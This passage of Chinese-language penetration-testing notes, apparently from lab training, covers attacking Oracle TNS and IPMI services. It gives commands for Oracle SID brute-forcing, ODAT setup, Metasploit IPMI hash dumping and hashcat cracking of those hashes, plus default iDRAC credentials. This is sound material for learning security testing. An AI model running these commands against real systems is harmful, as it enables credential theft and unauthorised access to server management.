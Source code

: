 ## 1.9 Oracle

1521端口

```
nmap -p1521 -sV 10.129.180.180 --open --script oracle-sid-brute

###############安装odat和sqlplus
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome

```

## 1.10 IPMI

IPMI 通过端口 623 UDP 进行通信。

```
nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local


use auxiliary/scanner/ipmi/ipmi_version 
set rhosts 10.129.42.195
run
```

Dell iDRAC :root :calvin

HP iLO: Administrator: 由数字和大写字母组成的随机 8 个字符的字符串

```
该命令 hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u 会尝试所有大写字母和数字的组合来获得 8 个字符的密码。
```

```
use auxiliary/scanner/ipmi/ipmi_dumphashes 
set rhosts 10.129.179.34
run
hashcat -m 7300 -a 0 -o found.txt hash.txt  /usr/share/wordlists/rockyou.txt

```
